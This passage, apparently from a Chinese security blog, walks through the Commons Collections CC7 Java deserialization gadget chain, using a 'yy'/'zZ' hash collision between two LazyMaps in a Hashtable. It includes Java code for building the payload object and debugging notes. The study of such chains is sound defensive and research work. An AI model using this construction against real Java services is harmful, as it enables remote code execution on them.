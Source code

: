 > 例如 A 的 ASCII 值为 65，a 为 97，B 为 66 ， hash("Aa")=65\*31+97;  hash("BB")=66\*31+66=65\*31+(66+31)=65\*31+97=hash("Aa")

所以这里利用了这样的一个tricks，构造两个LazyMap，让两个LazyMap的hash恰好相等

再把lazymap存入hashtable

```java
Map innerMap1 = new HashMap();
Map innerMap2 = new HashMap();
// Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
lazyMap1.put("yy", 1);
Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zZ", 1);
Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap1, 1);
hashtable.put(lazyMap2, 2);
Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
```

debug一下跟进一下情况，第一次put，会把键值对存入tab

![image-20221024151517552](https://tuchuang.huamang.xyz/img/image-20221024151517552.png)

第二次put的时候，会发现这里key和之前的e.key不一样了，key多了个"yy"

![image-20221024153937926](https://tuchuang.huamang.xyz/img/image-20221024153937926.png)

那么这会导致我们后面AbstractMapDecorator的equals执行不了

![image-20221024171257180](https://tuchuang.huamang.xyz/img/image-20221024171257180.png)

所以我们得在后面序列化之前，把这个"yy"给remove掉，然后再调试就可以看到进去了AbstractMap的equals方法，进而执行到LazyMap的get方法

![image-20221024173336456](https://tuchuang.huamang.xyz/img/image-20221024173336456.png)

然后就是transform的触发了

![image-20221024173352984](https://tuchuang.huamang.xyz/img/image-20221024173352984.png)



再回头看看为什么我的Map为什么突然多了个"yy"

Hashtable调用put方法添加第二个元素`（lazyMap2，1）`的时候，该方法内部会调用equals方法根据元素的key判断是否为同一元素，那么调用了equals就会把"yy"给插进去了

```java
	public synchronized V put(K key, V value) {
		//value是否为null
        if (value == null) {
            throw new NullPointerException();
        }
 
		//临时变量
        Entry<?,?> tab[] = table;
		//计算元素的存储索引
        int hash = key.hashCode();
        int index = (hash & 0x7FFFFFFF) % tab.length;
		//获取指定索引的链表
        @SuppressWarnings("unchecked")
        Entry<K,V> entry = (Entry<K,V>)tab[index];
		//遍历链表的节点（元素）
        for(; entry != null ; entry = entry.next) {
			//判断key是否重复
            if ((entry.hash == hash) && entry.key.equals(key)) {
				//覆盖value
                V old = entry.value;
```